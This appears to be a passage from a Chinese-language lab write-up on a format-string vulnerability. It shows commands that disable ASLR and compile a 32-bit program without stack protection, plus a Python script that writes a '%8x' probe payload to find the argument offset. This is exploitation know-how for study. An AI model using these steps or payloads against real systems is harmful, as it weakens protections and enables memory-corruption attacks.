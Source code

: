 ## 4.1 查看信息

关闭ASLR

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

编译

```bash
gcc -fno-stack-protector -no-pie -z execstack -m32 prog2.c -o prog2
```

运行程序查看变量input的地址, ebp地址, 返回地址

![image-20230519193136493](assets/image-20230519193136493.png)

## 4.2 测试valist到字符串首字符的长度

输出vaList开始40个双字的值，将payload的开头设为字符串的地址，看第几个双字的值为val的地址

task2_0.py

```python
#!/usr/bin/python3
# task2_0: test the length of vaList to the payload

# target address + %x*40 + \n
payload = "\x04\xcf\xff\xff"+"val:"+ ".%8x"*40 + "\n"

payload = payload.encode('latin-1')
with open('input', 'wb') as f:
  f.write(payload)
```

结果

![image-20230519193536263](assets/image-20230519193536263.png)
